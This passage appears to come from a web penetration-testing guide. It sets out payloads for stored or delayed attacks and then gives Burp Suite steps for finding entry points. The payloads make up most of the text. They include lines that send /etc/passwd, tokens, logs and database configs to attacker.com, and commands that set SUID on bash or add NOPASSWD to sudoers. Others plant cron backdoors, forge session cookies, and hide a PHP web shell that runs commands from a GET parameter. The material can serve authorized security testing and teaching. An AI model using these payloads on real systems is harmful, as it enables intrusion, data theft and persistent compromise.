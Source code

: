 - **Data Leakage Payloads**:
  - `<?php file_get_contents('http://attacker.com/log?data='.urlencode(file_get_contents('/etc/passwd'))); ?>` (Exfiltrates file)
  - `<script>new Image().src='http://attacker.com/log?data='+encodeURIComponent(localStorage.getItem('token'));</script>` (Steals token)
  - `curl http://attacker.com/log -d @/var/log/app.log` (Sends log data)
  - `<?php mail('attacker@evil.com', 'Data', file_get_contents('/config/db.conf')); ?>` (Emails data)

- **Privilege Escalation Payloads**:
  - `<?php system('chmod u+s /bin/bash'); ?>` (Sets SUID bit)
  - `sudo -u root /tmp/malicious.sh` (Exploits sudo misconfiguration)
  - `<?php putenv('PATH=/tmp:$PATH'); system('custom_binary'); ?>` (Path manipulation)
  - `echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers` (Modifies sudoers)

- **Configuration Manipulation Payloads**:
  - `<?php file_put_contents('/etc/crontab', '0 * * * * root /tmp/malicious.sh\n', FILE_APPEND); ?>` (Adds cron job)
  - `echo '*/1 * * * * /tmp/backdoor.sh' > /etc/cron.d/attack` (Cron file creation)
  - `<?php ini_set('open_basedir', '/tmp'); ?>` (Alters PHP config)
  - `echo 'malicious_alias=malicious_command' >> /etc/bash.bashrc` (Shell config change)

- **Session Persistence Payloads**:
  - `<script>document.cookie='session=malicious;path=/;expires=Wed, 01 Jan 2026 00:00:00 GMT'</script>` (Persistent cookie)
  - `<?php $_SESSION['user']='admin'; ?>` (Session hijack)
  - `<script>localStorage.setItem('token', 'malicious_token');</script>` (Local storage manipulation)
  - `<?php setcookie('auth', 'admin', time()+31536000); ?>` (Long-lived cookie)

- **Trigger Evasion Payloads**:
  - `<?php /*hidden*/ if (isset($_GET['secret'])) { system($_GET['cmd']); } ?>` (Conditional trigger)
  - `<script>if (location.href.includes('trigger')) { malicious(); }</script>` (URL-based trigger)
  - `eval(decodeURIComponent('malicious%20code'));` (Encoded payload)
  - `<?php if ($_SERVER['REMOTE_ADDR'] == 'attacker_ip') { system('whoami'); } ?>` (IP-based trigger)

**Note**: Payloads depend on the application’s technology stack (e.g., PHP, JavaScript, server configuration) and persistence mechanisms (e.g., file uploads, database storage). Test payloads in upload forms, user profiles, or inputs that may be stored or executed later.

### 1. Identify Potential Entry Points

**Objective**: Locate inputs or features that may allow persistent or delayed payloads.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, APIs, or features that store input (e.g., user profiles, file uploads, comments, logs).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or interact with features to capture requests in HTTP History.
   - Note parameters (e.g., `bio=test`, `file=upload.jpg`).
3. Inspect responses:
   - Check for stored data, script execution, or delayed responses.
   - Use Developer Tools (`Ctrl+Shift+I`) to search for stored payloads or scheduled tasks.
4. List entry points:
   - Document upload endpoints, profile fields, comment sections, and API inputs.
